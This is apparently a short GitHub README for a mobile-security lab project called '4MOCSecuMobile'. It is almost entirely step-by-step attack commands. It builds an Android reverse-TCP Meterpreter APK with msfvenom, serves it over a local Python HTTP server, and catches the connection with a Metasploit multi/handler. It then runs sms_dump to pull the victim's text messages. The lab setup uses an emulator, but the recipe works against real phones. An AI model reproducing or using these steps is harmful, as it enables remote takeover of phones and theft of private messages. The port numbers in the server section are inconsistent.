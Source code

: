 # 4MOCSecuMobile

## Generate APK

- msfvenom -p android/meterpreter/reverse_tcp LHOST=your_ip LPORT=8888 -f raw -o name_apk.apk

## Server local

- python -m SimpleHTTPServer 4433
- To access it : your_ip:4443
- Put apk in folder or you started the server

## Metasploit

- Install metasploit
- Start it with msfconsole
- handler : use exploit/multi/handler
- Load payload : set payload android/meterpreter/reverse_tcp
- Configure Host + Port : set LHOST your_ip , set LPORT 8888
- Launch the payload : exploit
- sms_dump if exploit is a succesful.

## Emulator

- Start it
- Connect you to chrome
- Tap local server adress
- Click on APK and it should to donwload it
- It will have to dowload it

## Application

- tap in console make moveFile to move the txt if you have completed to generate the txt file
- Start the application and you will need to see the sms of the txt file



